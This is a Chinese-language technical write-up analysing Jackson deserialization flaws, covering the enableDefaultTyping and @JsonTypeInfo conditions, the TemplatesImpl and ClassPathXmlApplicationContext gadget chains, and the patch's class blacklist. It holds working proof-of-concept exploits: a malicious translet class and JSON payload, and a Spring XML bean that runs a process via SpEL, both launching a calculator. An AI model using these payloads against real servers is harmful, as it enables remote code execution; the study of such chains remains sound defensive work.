## Jackson反序列化漏洞

----

**author：Cinderella**

### 前言

Jackson反序列化漏洞基本只有以下三种代码编写方式可能存在反序列化漏洞：

- **调用ObjectMapper.enableDefaultTyping()**
- **对要反序列化的类的属性@JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)**
- **对要反序列化的类的属性@JsonTypeInfo(use = JsonTypeInfo.Id.MINIMAL_CLASS)**

### 利用条件详解

#### 简介

Jackson内部，进行序列化以及反序列化使用的函数如下：

- ObjectMapper.writeValueAsString()——序列化
- ObjectMapper.readValue()——反序列化

**正常进行序列化以及反序列化是不存在漏洞的。**Jackson允许配置多态类型处理，用以正确读取对象的类型，这里面有两种情况，一种是 **Global default typing**（全局的DefaultTyping），另一种是 **@JsonTypeInfo** 注解两种方式。

#### enableDefaultTyping()

需要注意，Jackson ObjectMapper 中的 enableDefaultTyping 方法从 2.10.0 开始标记为过期，一般调用方式如下：

```java
mapper.enableDefaultTyping(ObjectMapper.DefaultTyping.JAVA_LANG_OBJECT); //Jackson版本小于2.10.0
```

```java
mapper.activateDefaultTyping(LaissezFaireSubTypeValidator.instance, ObjectMapper.DefaultTyping.JAVA_LANG_OBJECT); //Jackson版本大于2.10.0
```

这里有五种值（2.10.0新特性**EVERYTHING**）

#com/fasterxml/jackson/databind/ObjectMapper.java



DefaultTyping存在五种值，其实这里只要关注**OBJECT_AND_NON_CONCRETE**。DefaultTyping()默认是`OBJECT_AND_NON_CONCRETE`选项。**这里EVERYTHING选项由于版本（2.10.0）比较高，所以基本已经没有可以利用的Gadget。**

当类里的属性声明为一个Object时，会对该属性进行序列化和反序列化，并且明确规定类名，同时当类里有 Interface 、 AbstractClass 时，对其进行序列化和反序列化。（当然，这些类本身需要是合法的、可以被序列化/反序列化的对象）。

这里提供一个Demo

```java
public class Non_Concrete_And_Arrays_Demo {
    public static void main(String[] args) throws IOException {
        People2 p1 = new People2();
        p1.age = 10;
        p1.name = "Li";
        Cinderella[] Cinderella = new Cinderella[2];
        Cinderella[0] = new Cinderella();
        Cinderella[1] = new Cinderella();
        p1.object = Cinderella;
        p1.sex = new MySex1();
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping(ObjectMapper.DefaultTyping.NON_CONCRETE_AND_ARRAYS);
        String json = mapper.writeValueAsString(p1);
        System.out.println(json);
        System.out.println("===============================");
        People2 p2 = mapper.readValue(json,People2.class);
        System.out.println(p2);
    }
}
class People2{
    public int age;
    public String name;
    public Object object;
    public Sex1 sex;

    @Override
    public String toString() {
        return "People2{" +
                "age=" + age +
                ", name='" + name + '\'' +
                ", object=" + object +
                ", sex=" + sex +
                '}';
    }
}

class Cinderella{
    public int length = 100;
}

class MySex1 implements Sex1{

    int sex;

    @Override
    public int getSex() {
        return sex;
    }

    @Override
    public void setSex(int sex) {
        this.sex = sex;
    }
}

interface Sex1{
    public void setSex(int sex);
    public int getSex();
}
```



可以看到Object以及Interface都被正确的序列化和反序列化了

#### @JsonTypeInfo注解

当进行反序列话时，JSON数据匹配的对象可能有多个子类型，为了正确的读取对象的类型，我们需要添加一些类型信息。

@JsonTypeInfo注解是Jackson多态类型绑定的一种方式，支持下面5种类型的取值：

- @JsonTypeInfo(use = JsonTypeInfo.Id.NONE)	不使用识别码
- **@JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)**  使用完全限定类名做识别
- **@JsonTypeInfo(use = JsonTypeInfo.Id.MINIMAL_CLASS)**  若基类和子类在同一包类，使用类名(忽略包名)作为识别码
- @JsonTypeInfo(use = JsonTypeInfo.Id.NAME)   一个合乎逻辑的指定名称
- @JsonTypeInfo(use = JsonTypeInfo.Id.COSTOM) 自定义识别码，由`@JsonTypeIdResolver`对应

这里关注加粗的两个类型，因为只有这两个与漏洞相关

Demo

```java
public class JsonTypeInfoDemo {
    public static void main(String[] args) throws IOException {
        ObjectMapper mapper = new ObjectMapper();
        User user = new User();
        user.name = "Li";
        user.age = 10;
        user.obj = new Height();
        String json = mapper.writeValueAsString(user);
        System.out.println(json);

    }
}
@JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)
class User{
    public String name;
    public int age;
    public Object obj;

    @Override
    public String toString() {
        return "User{" +
                "name='" + name + '\'' +
                ", age=" + age +
                ", obj=" + obj +
                '}';
    }
}

class Height {
    public int h = 100;
}
```

- @JsonTypeInfo(use = JsonTypeInfo.Id.CLASS) 结果:

```
{"@class":"User","name":"Li","age":10,"obj":{"h":100}}
```

- @JsonTypeInfo(use = JsonTypeInfo.Id.MINIMAL_CLASS)结果：

```
{"@c":"User","name":"Li","age":10,"obj":{"h":100}}
```

可以看到序列化时标注了类，无非就是注释不同，反序列化时就可以通过字段读取特殊类进行操作，对指定类进行序列化以及反序列化操作。

### TemplatesImpl利用链（CVE-2017-7525）

影响版本：

Jackson 2.6系列 < 2.6.7.1

Jackson 2.7系列 < 2.7.9.1

Jackson 2.8系列 < 2.8.8.1

这里需要注意的一点是JDK版本问题，1.7稳定执行，1.8部分版本无法执行

廖师傅的代码，恶意利用类

```java
public class Test extends AbstractTranslet {
    public Test() throws IOException {
        Runtime.getRuntime().exec("open -a Calculator");
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }

    @Override
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {

    }

    public static void main(String[] args) throws Exception {
        Test t = new Test();
    }
}
```

测试POC

```java
public class Poc {

    static class Bean1599 {
        public int id;
        public Object obj;
    }
    public static String readClass(String cls){
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(cls)), bos);
        } catch (IOException e) {
            e.printStackTrace();
        }
        return Base64.encodeBase64String(bos.toByteArray());

    }
    public static String aposToQuotes(String json) {
        return json.replace("'", "\"");
    }

    public static void main(String args[]) throws Exception
    {
        final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        String evilCode = readClass("/Jackson/Jackson-databind-RCE-PoC/target/classes/jackson/Test.class");
        final String JSON = aposToQuotes(
                "{"
                        +" 'obj':[ '"+NASTY_CLASS+"',\n"
                        +"  {\n"
                        +"    'transletBytecodes' : [ '"+ evilCode +"' ],\n"
                        +"    'transletName' : 'a.b',\n"
                        +"    'outputProperties' : { }\n"
                        +"  }\n"
                        +" ]\n"
                        +"}"
        );
        System.out.println(JSON);
        ObjectMapper mapper = new ObjectMapper();
        mapper.setSerializationInclusion(JsonInclude.Include.NON_NULL);
        mapper.enableDefaultTyping();
        try {
            mapper.readValue(JSON, Bean1599.class);
            System.out.println("Should not pass");
        } catch (Throwable e) {
            e.printStackTrace();
        }
    }
}
```

整个完整调用栈如下

```
<init>:21, Test (jackson)
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:408, Constructor (java.lang.reflect)
newInstance:433, Class (java.lang)
getTransletInstance:387, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
newTransformer:418, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
getOutputProperties:439, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:483, Method (java.lang.reflect)
deserializeAndSet:105, SetterlessProperty (com.fasterxml.jackson.databind.deser.impl)
vanillaDeserialize:260, BeanDeserializer (com.fasterxml.jackson.databind.deser)
deserialize:125, BeanDeserializer (com.fasterxml.jackson.databind.deser)
_deserialize:110, AsArrayTypeDeserializer (com.fasterxml.jackson.databind.jsontype.impl)
deserializeTypedFromAny:68, AsArrayTypeDeserializer (com.fasterxml.jackson.databind.jsontype.impl)
deserializeWithType:554, UntypedObjectDeserializer$Vanilla (com.fasterxml.jackson.databind.deser.std)
deserialize:493, SettableBeanProperty (com.fasterxml.jackson.databind.deser)
deserializeAndSet:101, FieldProperty (com.fasterxml.jackson.databind.deser.impl)
vanillaDeserialize:260, BeanDeserializer (com.fasterxml.jackson.databind.deser)
deserialize:125, BeanDeserializer (com.fasterxml.jackson.databind.deser)
_readMapAndClose:3807, ObjectMapper (com.fasterxml.jackson.databind)
readValue:2797, ObjectMapper (com.fasterxml.jackson.databind)
main:72, Poc (jackson)
```

这里直接在com.fasterxml.jackson.databind.deser.BeanDeserializer#deserialize(com.fasterxml.jackson.core.JsonParser, com.fasterxml.jackson.databind.DeserializationContext)下断点



进入com.fasterxml.jackson.databind.deser.BeanDeserializer#vanillaDeserialize，继续跟进，进入createUsingDefault，来找对应的类，这里重点看框住的类，第一个是直接调用的类，后面的类会在返回的时候调用



之后进入com.fasterxml.jackson.databind.deser.std.StdValueInstantiator#createUsingDefault，这里直接进入_defaultCreator.call();



com.fasterxml.jackson.databind.introspect.AnnotatedConstructor#call()，这里根据反射寻找对应的类



之后层层返回，将结果在此返回给com.fasterxml.jackson.databind.deser.BeanDeserializer#vanillaDeserialize



这里就直接进入com.fasterxml.jackson.databind.deser.impl.FieldProperty#deserializeAndSet。这里就通过反射调用对应的setter方法，当然第一次是不会成功的，毕竟是自定义的类。



这个流程其实是十分重要的，可以看到

- com.fasterxml.jackson.databind.deser.std.StdValueInstantiator#createUsingDefault直接调用com.fasterxml.jackson.databind.introspect.AnnotatedConstructor#call()来寻找对应的类
- com.fasterxml.jackson.databind.deser.impl.FieldProperty#deserializeAndSet通过反射找到对应的setter

之后略过简单的调用，直接到com.fasterxml.jackson.databind.jsontype.impl.AsArrayTypeDeserializer#_deserialize，之后的调用其实很大程度还是上面的流程



之后进入com.fasterxml.jackson.databind.jsontype.impl.TypeDeserializerBase#_findDeserializer



重点在_deserializers.put(typeId, deser)，这里处理完typeId以及deser后返回



之后返回到com.fasterxml.jackson.databind.jsontype.impl.AsArrayTypeDeserializer#_deserialize



进入

com.fasterxml.jackson.databind.deser.BeanDeserializer#deserialize(com.fasterxml.jackson.core.JsonParser, com.fasterxml.jackson.databind.DeserializationContext)，在此开始循环



这里借用link3r大佬的图片，这里很完整的解释了调用过程



之后就是循环解析传入的字符串过程，直到解析到**outputProperties**，这里是没有找到`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`对应的setter方法的



对比一下很明显



所以这里通过com.fasterxml.jackson.databind.deser.SettableBeanProperty#deserializeAndSet，进入com.fasterxml.jackson.databind.deser.impl.SetterlessProperty#deserializeAndSet



之后直接进入com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl#getOutputProperties



com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl#newTransformer



com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl#getTransletInstance



之后就是通过反射执行我们的命令



### ClassPathXmlApplicationContext利用链（CVE-2017-17485）

影响版本：

Jackson 2.7系列 < 2.7.9.2

Jackson 2.8系列 < 2.8.11

Jackson 2.9系列 < 2.9.4

恶意利用类：

该漏洞需要SPEL表达式配合，所以本地要起一个HTTP服务

```spreadsheet
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder">
        <constructor-arg value="/System/Applications/Calculator.app/Contents/MacOS/Calculator"/>
        <property name="whatever" value="#{ pb.start() }"/>
    </bean>
</beans>
```

测试调用类：

```java
    public static void testSpringFramework(){
        String payload = "[\"org.springframework.context.support.ClassPathXmlApplicationContext\", " +
                "\"http://127.0.0.1:8000/spel.xml\"]\n";
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        try {
            mapper.readValue(payload, Object.class);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

直接在com.fasterxml.jackson.databind.ObjectMapper#readValue(java.lang.String, java.lang.Class<T>)处下断点，进行调试

这里会通过com.fasterxml.jackson.databind.deser.BeanDeserializer#deserialize(com.fasterxml.jackson.core.JsonParser, com.fasterxml.jackson.databind.DeserializationContext)



进入到com.fasterxml.jackson.databind.deser.BeanDeserializer#_deserializeOther



进入com.fasterxml.jackson.databind.deser.BeanDeserializerBase#deserializeFromString



在此跟进com.fasterxml.jackson.databind.deser.std.StdValueInstantiator#createFromString，这里其实可以看到我们的value为`http://127.0.0.1:8000/spel.xml`，其实已经成功读取了我们的类以及值。



之后进入com.fasterxml.jackson.databind.introspect.AnnotatedConstructor#call1，创建实例



org.springframework.context.support.ClassPathXmlApplicationContext#ClassPathXmlApplicationContext(java.lang.String)，这里可以看到，我们对应的恶意类实例已经创建成功了。



**注意：这里其实已经创建实例org.springframework.context.support.ClassPathXmlApplicationContext成功了，但是这个利用链与其他利用链很大的不同就是这个类没有setter方法，但是拥有构造函数，所以这个利用链的漏洞利用点在构造函数上面，而非setter。**

中间杂七杂八的调用跳过，我们跟进到

org.springframework.context.support.ClassPathXmlApplicationContext#ClassPathXmlApplicationContext(java.lang.String[], boolean, org.springframework.context.ApplicationContext)



这里直接进入org.springframework.context.support.AbstractApplicationContext#refresh，这里其实就是注册bean的地方



然后经过调用，进入org.springframework.context.support.PostProcessorRegistrationDelegate#invokeBeanFactoryPostProcessors(org.springframework.beans.factory.config.ConfigurableListableBeanFactory, java.util.List<org.springframework.beans.factory.config.BeanFactoryPostProcessor>)



之后跟进getBeanNamesForType，org.springframework.beans.factory.support.DefaultListableBeanFactory#getBeanNamesForType(java.lang.Class<?>, boolean, boolean)



在次经过调用，进入org.springframework.beans.factory.support.DefaultListableBeanFactory#doGetBeanNamesForType，这里其实可以看到，beanName值为pb，mbd值为java.lang.ProcessBuilder



继续跟进org.springframework.beans.factory.support.AbstractBeanFactory#isFactoryBean(java.lang.String, org.springframework.beans.factory.support.RootBeanDefinition)，这里通过predictBeanType获取beanType



进入org.springframework.beans.factory.support.AbstractBeanFactory#isFactoryBean(java.lang.String, org.springframework.beans.factory.support.RootBeanDefinition)



在此跟进org.springframework.beans.factory.support.AbstractAutowireCapableBeanFactory#determineTargetType



这里进入org.springframework.beans.factory.support.AbstractBeanFactory#resolveBeanClass



这里继续跟进org.springframework.beans.factory.support.AbstractBeanFactory#doResolveBeanClass，这里调用evaluateBeanDefinitionString来执行bean的值



继续跟进org.springframework.beans.factory.support.AbstractBeanFactory#evaluateBeanDefinitionString，这里其实已经很明了了，要调用SPEL表达式解析器了，那么漏洞就肯定在SPEL解析过程





继续跟进org.springframework.context.expression.StandardBeanExpressionResolver#evaluate



这里第一个断点，虽然判断expr为null，但是还是赋值成功，第二个断点，sec参数就是我们的spel.xml解析得到的SPEL表达式。之后就是解析spel.xml的过程，直到触发执行命令。

这里提供一个完整的调用栈，供参考。

```
evaluateBeanDefinitionString:1452, AbstractBeanFactory (org.springframework.beans.factory.support)
doEvaluate:266, BeanDefinitionValueResolver (org.springframework.beans.factory.support)
evaluate:223, BeanDefinitionValueResolver (org.springframework.beans.factory.support)
resolveValueIfNecessary:191, BeanDefinitionValueResolver (org.springframework.beans.factory.support)
applyPropertyValues:1613, AbstractAutowireCapableBeanFactory (org.springframework.beans.factory.support)
populateBean:1357, AbstractAutowireCapableBeanFactory (org.springframework.beans.factory.support)
doCreateBean:582, AbstractAutowireCapableBeanFactory (org.springframework.beans.factory.support)
createBean:502, AbstractAutowireCapableBeanFactory (org.springframework.beans.factory.support)
lambda$doGetBean$0:312, AbstractBeanFactory (org.springframework.beans.factory.support)
getObject:-1, 987249254 (org.springframework.beans.factory.support.AbstractBeanFactory$$Lambda$10)
getSingleton:228, DefaultSingletonBeanRegistry (org.springframework.beans.factory.support)
doGetBean:310, AbstractBeanFactory (org.springframework.beans.factory.support)
getBean:200, AbstractBeanFactory (org.springframework.beans.factory.support)
preInstantiateSingletons:758, DefaultListableBeanFactory (org.springframework.beans.factory.support)
finishBeanFactoryInitialization:868, AbstractApplicationContext (org.springframework.context.support)
refresh:549, AbstractApplicationContext (org.springframework.context.support)
<init>:144, ClassPathXmlApplicationContext (org.springframework.context.support)
<init>:85, ClassPathXmlApplicationContext (org.springframework.context.support)
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:408, Constructor (java.lang.reflect)
call1:129, AnnotatedConstructor (com.fasterxml.jackson.databind.introspect)
createFromString:299, StdValueInstantiator (com.fasterxml.jackson.databind.deser.std)
deserializeFromString:1204, BeanDeserializerBase (com.fasterxml.jackson.databind.deser)
_deserializeOther:144, BeanDeserializer (com.fasterxml.jackson.databind.deser)
deserialize:135, BeanDeserializer (com.fasterxml.jackson.databind.deser)
_deserialize:110, AsArrayTypeDeserializer (com.fasterxml.jackson.databind.jsontype.impl)
deserializeTypedFromAny:68, AsArrayTypeDeserializer (com.fasterxml.jackson.databind.jsontype.impl)
deserializeWithType:554, UntypedObjectDeserializer$Vanilla (com.fasterxml.jackson.databind.deser.std)
deserialize:63, TypeWrappedDeserializer (com.fasterxml.jackson.databind.deser.impl)
_readMapAndClose:3807, ObjectMapper (com.fasterxml.jackson.databind)
readValue:2797, ObjectMapper (com.fasterxml.jackson.databind)
testSpringFramework:33, TestJdbcRowSetImplPoc (jackson)
main:13, TestJdbcRowSetImplPoc (jackson)
```

### 补丁分析

这里直接用最新的2.13.0版本进行分析，可以看到在com.fasterxml.jackson.databind.deser.BeanDeserializerFactory#createBeanDeserializer会调用validateSubType对传入类进行检查，继续跟进



跟进com.fasterxml.jackson.databind.deser.BeanDeserializerFactory#_validateSubType



最终进入com.fasterxml.jackson.databind.jsontype.impl.SubTypeValidator#validateSubType进行恶意类检测，具体恶意类放在下方黑名单中，检测出来后抛出错误



错误如下：

```
com.fasterxml.jackson.databind.exc.InvalidDefinitionException: Invalid type definition for type `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`: Illegal type (com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl) to deserialize: prevented for security reasons
```

```
com.fasterxml.jackson.databind.exc.InvalidDefinitionException: Invalid type definition for type `org.springframework.context.support.ClassPathXmlApplicationContext`: Illegal type (org.springframework.context.support.ClassPathXmlApplicationContext) to deserialize: prevented for security reasons
```

### 黑名单

官方修复比较直接，添加对应黑名单，黑名单如下，目前最新版本108个黑名单类

```java
org.jboss.util.propertyeditor.DocumentEditor
org.springframework.beans.factory.config.PropertyPathFactoryBean
com.caucho.config.types.ResourceRef
org.apache.activemq.pool.JcaPooledConnectionFactory
org.apache.tomcat.dbcp.dbcp2.BasicDataSource
org.apache.activemq.jms.pool.JcaPooledConnectionFactory 
org.apache.activemq.spring.ActiveMQXAConnectionFactory
org.apache.xalan.lib.sql.JNDIConnectionPool 
br.com.anteros.dbcp.AnterosDBCPDataSource
java.util.logging.FileHandler 
net.sf.ehcache.transaction.manager.selector.GenericJndiSelector 
com.p6spy.engine.spy.P6DataSource 
org.apache.ibatis.datasource.jndi.JndiDataSourceFactory
org.apache.activemq.pool.PooledConnectionFactory
org.apache.activemq.jms.pool.XaPooledConnectionFactory
org.apache.commons.configuration2.JNDIConfiguration
org.apache.commons.dbcp2.datasources.PerUserPoolDataSource
oracle.jdbc.connector.OracleManagedConnectionFactory
org.apache.activemq.ActiveMQXAConnectionFactory
com.oracle.wls.shaded.org.apache.xalan.lib.sql.JNDIConnectionPool
com.mysql.cj.jdbc.admin.MiniAdmin
org.apache.xalan.xsltc.trax.TemplatesImpl
org.apache.activemq.ActiveMQConnectionFactory
com.zaxxer.hikari.HikariDataSource
org.docx4j.org.apache.xalan.lib.sql.JNDIConnectionPool
org.apache.log4j.receivers.db.DriverManagerConnectionSource
br.com.anteros.dbcp.AnterosDBCPConfig
org.springframework.beans.factory.config.BeanReferenceFactoryBean
oracle.jms.AQjmsXAQueueConnectionFactory
org.apache.axis2.transport.jms.JMSOutTransportInfo
oadd.org.apache.xalan.lib.sql.JNDIConnectionPool
oracle.jms.AQjmsQueueConnectionFactory
org.apache.commons.collections.functors.InvokerTransformer
flex.messaging.util.concurrent.AsynchBeansWorkManagerExecutor
net.sf.ehcache.transaction.manager.DefaultTransactionManagerLookup
org.apache.commons.dbcp2.datasources.SharedPoolDataSource
com.pastdev.httpcomponents.configuration.JndiConfiguration
javax.swing.JEditorPane
javax.swing.JTextPane
ch.qos.logback.core.db.JNDIConnectionSource
oracle.jdbc.rowset.OracleJDBCRowSet
org.apache.openjpa.ee.WASRegistryManagedRuntime
org.apache.commons.dbcp2.cpdsadapter.DriverAdapterCPDS
oracle.jms.AQjmsXAConnectionFactory
org.codehaus.groovy.runtime.ConvertedClosure
org.springframework.beans.factory.ObjectFactory
com.sun.rowset.JdbcRowSetImpl
com.nqadmin.rowset.JdbcRowSetImpl
org.slf4j.ext.EventData
com.sun.org.apache.xalan.internal.lib.sql.JNDIConnectionPool
com.newrelic.agent.deps.ch.qos.logback.core.db.JNDIConnectionSource
org.jdom2.transform.XSLTransformer
org.apache.ignite.cache.jta.jndi.CacheJndiTmFactory
org.apache.tomcat.dbcp.dbcp2.cpdsadapter.DriverAdapterCPDS
org.apache.aries.transaction.jms.RecoverablePooledConnectionFactory
oadd.org.apache.commons.dbcp.cpdsadapter.DriverAdapterCPDS
org.apache.commons.dbcp.datasources.SharedPoolDataSource
org.quartz.utils.JNDIConnectionProvider
org.codehaus.groovy.runtime.MethodClosure
org.apache.commons.configuration.JNDIConfiguration
org.apache.tomcat.dbcp.dbcp.datasources.SharedPoolDataSource
org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup
org.apache.shiro.jndi.JndiObjectFactory
org.apache.tomcat.dbcp.dbcp.datasources.PerUserPoolDataSource
com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig
org.apache.aries.transaction.jms.internal.XaPooledConnectionFactory
org.aoju.bus.proxy.provider.remoting.RmiProvider
oadd.org.apache.commons.dbcp.datasources.SharedPoolDataSource
jodd.db.connection.DataSourceConnectionProvider
org.apache.axis2.jaxws.spi.handler.HandlerResolverImpl
org.hibernate.jmx.StatisticsService
org.apache.shiro.realm.jndi.JndiRealmFactory
org.apache.tomcat.dbcp.dbcp.cpdsadapter.DriverAdapterCPDS
oracle.jms.AQjmsXATopicConnectionFactory
net.sf.ehcache.transaction.manager.selector.GlassfishSelector
oadd.org.apache.commons.dbcp.datasources.PerUserPoolDataSource
org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig
org.springframework.aop.config.MethodLocatingFactoryBean
org.aoju.bus.proxy.provider.RmiProvider
org.apache.openjpa.ee.RegistryManagedRuntime
com.newrelic.agent.deps.ch.qos.logback.core.db.DriverManagerConnectionSource
org.apache.commons.proxy.provider.remoting.RmiProvider
org.apache.tomcat.dbcp.dbcp2.datasources.SharedPoolDataSource
org.jsecurity.realm.jndi.JndiRealmFactory
org.apache.commons.dbcp.cpdsadapter.DriverAdapterCPDS
com.sun.org.apache.bcel.internal.util.ClassLoader
org.apache.cxf.jaxrs.provider.XSLTJaxbProvider
org.arrah.framework.rdbms.UpdatableJdbcRowsetImpl
com.sun.deploy.security.ruleset.DRSHelper
org.apache.openjpa.ee.JNDIManagedRuntime
org.apache.commons.collections.functors.InstantiateTransformer
org.apache.ibatis.parsing.XPathParser
org.apache.commons.dbcp.datasources.PerUserPoolDataSource
org.jdom.transform.XSLTransformer
org.apache.activemq.spring.ActiveMQConnectionFactory
org.apache.xbean.propertyeditor.JndiConverter
java.rmi.server.UnicastRemoteObject
org.apache.commons.collections4.functors.InstantiateTransformer
org.apache.activemq.pool.XaPooledConnectionFactory
org.apache.commons.collections4.functors.InvokerTransformer
com.zaxxer.hikari.HikariConfig
ch.qos.logback.core.db.DriverManagerConnectionSource
org.apache.tomcat.dbcp.dbcp2.datasources.PerUserPoolDataSource
org.apache.log4j.receivers.db.JNDIConnectionSource
org.apache.commons.jelly.impl.Embedded
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
oracle.jms.AQjmsTopicConnectionFactory
net.sf.ehcache.hibernate.EhcacheJtaTransactionManagerLookup
```

### 参考

[【反序列化漏洞】Jackson](https://0range228.github.io/%E3%80%90%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E3%80%91Jackson/)

[Jackson 反序列化汇总](http://www.lmxspace.com/2019/07/30/Jackson-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%B1%87%E6%80%BB/)


